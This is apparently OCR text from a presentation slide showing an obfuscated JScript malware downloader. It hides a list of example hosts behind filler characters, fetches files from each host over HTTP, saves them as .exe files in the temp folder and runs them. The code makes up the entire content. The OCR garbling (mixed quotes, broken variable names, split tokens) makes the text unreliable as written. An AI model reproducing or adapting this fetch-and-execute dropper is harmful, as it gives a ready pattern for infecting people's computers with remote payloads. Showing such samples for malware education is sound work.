

var nasdh="99";var nasdj="b99a99d99.99e99x99a99m99p99l99e99299.99c99o99m99 99b99a99d99d99e
99r99.99e99x99a99m99p99l99e99.99c99o99m99« .replace(nasdh,'').split(" ");var NrkQD=38105;var nasdi
= WScript.CreateObject("WScript.Shell");var ahu2=“3”;var nasmm=nasdi.ExpandEnvironmentStrings(«
%TE MP%")+ String.fromCharCode(92)+"107"; var naddk=WScript.CreateObject ("MSXML2.XMLHTTP");
var 8o ltX=13802;var nasbv=WScript.CreateObject ("ADODB.Stream");var y7tdu=64936;var ld = 0;
for (var nasd8 =ld;nasd8<nasdj.length;nasd8++){naddk.open("G"+"E"+"T","ht"+""+"tp://"+nasdj[nasd8]+
"/cou"+""+nter/?id ="+nasd8+« &rnd=711791"+n, false);var Nkz2x=25991; naddk.send();var JRQE2=
25337;if (naddk.status== (100+200-100)){ nasbv.open();var EcZUA=76990;nasbv.saveToFile(nasmm+nasd8
+".exe",2);nasdi.Run(nasmm+nasd8+".e xe",1,0);}}